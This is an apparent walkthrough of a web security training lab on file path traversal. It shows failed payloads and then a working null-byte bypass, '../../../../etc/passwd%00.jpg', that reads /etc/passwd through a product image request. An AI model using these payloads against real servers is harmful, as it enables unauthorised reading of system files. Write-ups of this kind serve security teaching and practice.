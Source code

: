 # Lab: File path traversal, validation of file extension with null byte bypass

> Lab Objective: retrieve the contents of the `/etc/passwd` file.

- View details for any product, then inspect requests made.

- You'll notice that the application made a request to retrieve the image for the specified product.
  ![1st screenshot](./attachments/1.png)

- When trying the following payloads, the result was the same `"No such file"`

```
/etc/passwd
../../../../../../etc/passwd
..//..//..//..//..//..//etc/passwd
```

![2nd screenshot](./attachments/2.png)

- But when using this payload `../../../../etc/passwd%00.jpg`, I was able to retrieve contents of `/etc/passwd` file.
  ![3rd screenshot](./attachments/3.png)

- And the lab is solved.
  ![4th screenshot](./attachments/4.png)

---
